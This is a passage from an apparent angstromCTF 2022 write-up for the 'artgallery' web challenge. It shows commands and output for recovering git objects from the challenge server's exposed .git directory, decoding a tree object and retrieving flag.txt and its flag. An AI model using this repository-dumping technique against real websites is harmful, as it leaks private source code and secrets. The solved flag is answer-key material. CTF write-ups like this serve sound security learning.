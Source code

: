 We can see that the hash for the initial commit is `56449caeb7973b88f20d67b4c343cbb895aa6bc7`. When I downloaded the corresponding object and decoded it, I got another hash (`ff511529549e4a9376c897df27e001a909caa933`) for the object that shows the tree of the original commit.

```text
/mnt/d/GitHub/angstromCTF2022/web/artgallery/.git$ python3 gitit.py objects/56/449caeb7973b88f20d67b4c343cbb895aa6bc7
b'commit 171\x00tree ff511529549e4a9376c897df27e001a909caa933\nauthor imposter <sus@aplet.me> 1651023841 -0400\ncommitter fraendt <**********@gmail.com> 1651023841 -0400\n\nadd program\n'

/mnt/d/GitHub/angstromCTF2022/web/artgallery/.git$ python3 ../gitdown.py
Object hash: ff511529549e4a9376c897df27e001a909caa933
ff/511529549e4a9376c897df27e001a909caa933
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   243  100   243    0     0    243      0  0:00:01 --:--:--  0:00:01   243

/mnt/d/GitHub/angstromCTF2022/web/artgallery/.git$ python3 gitit.py objects/ff511529549e4a9376c897df27e001a909caa933
b'tree 266\x00100644 error.html\x00\x8a\xba9\xc0\xcc\x9eNH5yo\xf0\x1b\x98\xc8k\x8b\xc8\x1b\x01100644 flag.txt\x00x\x0f\x86G\x15\t\x9av\x12\xef\xae:<\xdb\xcc\xde\x05\xa0\xad\xc440000 images\x00\\\x1f\xf2i\xbd\xdd2\xdb\xe3\x17"\xb4\x99\x18\x99G\xfb\xd84j100644 index.html\x006x\x13e\xca\xfa\xe9;<\xd8\xdb\xc5E\x0eb\xc0\xebW\xae\xea100644 index.js\x00?\xbbU~UX\xae\xc5b\x95\xc7\xf5~-S\xf4Q\xd7v\xcc100644 package-lock.json\x00\xa5\xb3\xc07\x85sb\x15\xa4\xba\xa6t\x0b^Y^\xacr\xec\xc1100644 package.json\x00\xab\x8a\xd5\xc7\xabU\xaa-f\xb9\xc4\xa9\x04\x1f\x13\xe2\x98\xa3\xc1\x8f'
```

The initial commit object shows the existence of a file named `flag.txt`. The data after the file name and the null character seems to be the hash value (`x\x0f\x86G\x15\t\x9av\x12\xef\xae:<\xdb\xcc\xde\x05\xa0\xad\xc4`) of the object that contains this file. What we need to do here is to convert this into the hex value. I wrote [a script](web/artgallery/gitdown.py) that simplifies the task of downloading various git objects.

```python
>>> bb = b"x\x0f\x86G\x15\t\x9av\x12\xef\xae:<\xdb\xcc\xde\x05\xa0\xad\xc4"
>>> import binascii
>>> binascii.hexlify(bb)
b'780f864715099a7612efae3a3cdbccde05a0adc4'
>>> exit()
```

Now that we have the object name, we can download it and interpret its data.

```text
/mnt/d/GitHub/angstromCTF2022/web/artgallery/.git$ python3 gitdown.py 
Object hash: 780f864715099a7612efae3a3cdbccde05a0adc4
78/0f864715099a7612efae3a3cdbccde05a0adc4
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    59  100    59    0     0     58      0  0:00:01  0:00:01 --:--:--    58
/mnt/d/GitHub/angstromCTF2022/web/artgallery/.git$ python3 ../gitit.py objects/780f864715099a7612efae3a3cdbccde05a0adc4 
b'blob 45\x00actf{lfi_me_alone_and_git_out_341n4kaf5u59v}'
```

**Flag: `actf{lfi_me_alone_and_git_out_341n4kaf5u59v}`**
